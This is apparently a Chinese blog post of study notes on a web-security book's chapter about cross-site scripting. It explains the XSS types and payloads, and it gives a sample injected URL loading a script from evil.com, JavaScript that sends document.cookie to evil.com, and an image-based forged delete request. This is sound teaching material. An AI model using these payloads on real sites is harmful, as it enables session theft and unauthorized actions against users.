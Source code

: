 ```yaml
---
layout: post
title: '白帽子讲Web安全 03 跨站脚本攻击（XSS）'
date: 2018-12-26
author: Buer
color: rgb(255,210,32)
cover: 'http://qiniu.bueryo.com/18-12-27/15563501.jpg'
tags: 白帽子 Web安全 笔记 跨站脚本 XSS
---
```


# 跨站脚本攻击(XSS)

## XSS简介

>*cross site script 本来缩写是css，为了跟网站开发中的css区分，安全领域称为xss。*

>*XSS攻击，通常是指“HTML注入”篡改网页，插入恶意脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。*

上面这段HTML注入，就是通过修改页面（最常见的就是博客、留言板、评论区等）内容，将自己的脚本保存在页面上，当后面的人打开该页面时，浏览器加载到脚本位置会执行其中的代码。

XSS分类（根据效果不同）：  
+ 反射型XSS：需要诱导用户点击才能攻击成功。也叫“非持久型XSS（Non-persistent XSS）”。
+ 存储型XSS：会把用户输入的数据存储在服务器上，比较稳定，也叫“持久型XSS（Presistent XSS）”。上文提到的博客就是这种。
+ DOM Based XSS：实际上是一种反射性xss，通过修改页面的DOM来进行攻击。这种需要熟悉前端知识，构造合适的代码，例如闭合引号用双斜线注释后面的元素等。

## XSS攻击进阶

### 初探XSS Payload

XSS payload实际上就是java script，还可以说flash或其他富客户端脚本。js脚本能做到的，攻击载荷都可以做到。  
最常见的XSS攻击载荷就是读取cookie，发起cookie劫持攻击。  
真正的payload写在远程脚本中，避免直接在url中写入大量代码，如：  
` http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script> `  
evil.js中，使用下面代码窃取cookie：
```
var img =  document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
cookie的“HttpOnly”可以防止Cookie劫持。

### 强大的XSS Payload
Cookie劫持并未所有的时候都有效，有的网站可能使用HttpOnly标识，有的网站会把Cookie与客户端IP绑定，从而使窃取的Cookie失去意义。

#### 构造GET与POST请求

举个例子：  
正常删除某博客文章的链接是：
`http://blog.a.com/manage/entry.do?m=delete$id=1234567`
对于攻击者来讲，只要知道文章id，就可以构造请求删除文章了，例如下面这样，插入一张图片：
```
var img = document.createElement("img");
img.src = "http://blog.a.com/manage/entry.do?m=delete$id=1234567";
document.body.appendChild(img);
```
只要博客作者执行到这段代码，这篇文章就会被删除。
